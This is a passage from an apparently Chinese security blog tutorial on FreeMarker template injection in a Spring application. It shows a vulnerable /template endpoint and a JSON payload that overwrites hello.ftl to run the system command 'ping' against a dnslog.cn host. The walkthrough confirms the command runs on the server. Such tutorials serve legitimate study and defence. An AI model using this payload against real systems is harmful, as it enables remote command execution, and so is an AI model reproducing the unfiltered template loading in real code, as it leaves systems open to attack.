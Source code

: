 ```
        Map root = new HashMap();
        root.put("data",data);

        StringWriter writer = new StringWriter();
        template.process(root,writer);
        return writer.toString();
    }

    @RequestMapping(value = "/template", method =  RequestMethod.POST)
    public String template(@RequestBody Map<String,String> templates) throws IOException {
        StringTemplateLoader stringLoader = new StringTemplateLoader();
        for(String templateKey : templates.keySet()){
            stringLoader.putTemplate(templateKey, templates.get(templateKey));
        }
        con.setTemplateLoader(new MultiTemplateLoader(new TemplateLoader[]{stringLoader,
            con.getTemplateLoader()}));
        return "index";
    }
}
```



上述代码主要编译给定的模板字符串和数据，生成HTML进行输出

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911153736602-1300404619.png)

模板注入的前提是在无过滤的情况下，使用模板来解析我们输入的字符，可以通过页面上的变化，来判断我们输入的内容是否被解析，如上图我们输入的内容被成功解析到页面上，并且没有过滤。

首先需要控制被攻击模板 /template 的内容，也就是要将本来无危害的模板文件实时更改为可攻击的模板内容。使用的payload

```
{"hello.ftl": "<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"ping ilxwh0.dnslog.cn\") }<title>Hello!</title><link href=\"/css/main.css\" rel=\"stylesheet\"></head><body><h2 class=\"hello-title\">Hello!</h2><script src=\"/js/main.js\"></script></body></html>"}
```

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911170426315-957198191.png)

关键代码在上图的红框中，接收用户传入的参数，使用keySet()获取key值，遍历相应的模块名字，使用StringTemplateLoader来加载模板内容，并使用putTemplate将key对应的value（也就是payload）写入templateKey中。这样就可以覆盖 hello.ftl 文件的内容，具体如下：

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911171827668-2059326925.png)

重新更改了加载的模板内容后，然后直接访问受影响的模板文件路径，此时恶意的模板文件内容就会被加载成功了，并执行了系统命令

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911173804255-14835990.png)

dnslog平台也受到了请求

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911173946071-111351701.png)

# 后言